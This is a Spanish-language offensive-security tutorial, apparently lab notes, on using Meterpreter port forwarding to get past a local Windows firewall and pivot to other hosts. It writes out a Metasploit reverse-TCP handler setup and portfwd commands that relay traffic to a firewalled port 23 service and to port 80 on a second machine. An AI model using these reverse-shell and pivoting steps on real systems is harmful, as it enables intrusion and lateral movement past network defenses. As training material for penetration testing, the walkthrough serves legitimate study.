







¿Qué es y en que consiste?
Es algo que no es específico de seguridad, es algo propio de la administración de sistemas de red.
Se trata de hacer que la conexión de un puerto a una máquina concreta se redirija al puerto de otra máquina, por ejemplo; una conexión desde internet a un puerto de nuestro router y redireccionarla al puerto de una máquina concreta a ese puerto dentro de la subred.
Aquí vamos a utilizarlo desde el punto de vista ofensivo.
Haciendo uso del payload creado con C# vamos a abrir Metasploit:
masfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost 192.168.20.129
set lport 5555

Imaginad el caso de que en la máquina objetivo donde tenemos el meterpreter sabemos que tienen un servicio vulnerable pero ese servicio tiene limitaciones por un firewall local por lo que una conexión reversa se permitiría pero una conexión entrante hacia un servicio desde fuera sería bloqueada.
Lo que vamos a hacer es emular que estamos corriendo un servicio utilizando Netcat en windows.
En nuestra máquina windows vemos que si lo ponemos a escuchar en cualquier puerto nos saltará el firewall de windows.

Esto es lo más normal en cualquier equipo. El firewall local de la máquina bloquea todas las conexiones entrantes.
Lo cancelamos.
La situación es:
Hemos obtenido un meterpreter y hacemos un análisis de los servicios expuesto hemos encontrado que el puerto 23 hay un servicio vulnerable que podemos explotar de forma remota pero no podemos acceder porque el firewall de la máquina está bloqueando las conexiones.
Con el meterpreter vamos a añadir un port-forwarding que va a estar escuchando en la máquina kali en un puerto que la máquina windows si permite conexiones entrantes que podemos descubrir con un escaneo de red.

Estos puertos son normales y obligatorios para el funcionamiento de la máquina.
Le indicamos pues a meterpreter:
portfwd add -l 135 -p 23
Le mandamos el tráfico de red a esa máquina por el 135 pero cuando llegue lo va a redirigir al puerto 23


Ahora en otra terminal nos conectamos al puerto 135 de forma local en kali:
netcat 127.0.0.1 135


También podemos acceder al servicio de otra máquina en la misma subred o dominio que solo ofrezca ese servicio para la subred o máquinas confiadas.
portfwd delete -i 1
Eliminamos el anterior relay.
portfwd add -l 135 -p 80 -r 192.168.20.133
Apuntamos al puerto 80 de la WS01.
Ahora lo que ocurre es reenviar el paquete local al puerto 135 de Meterpreter en kali, este lo reenvía al puerto 135 a WS02 y esta reenvía el paquete al puerto 80 de WS01.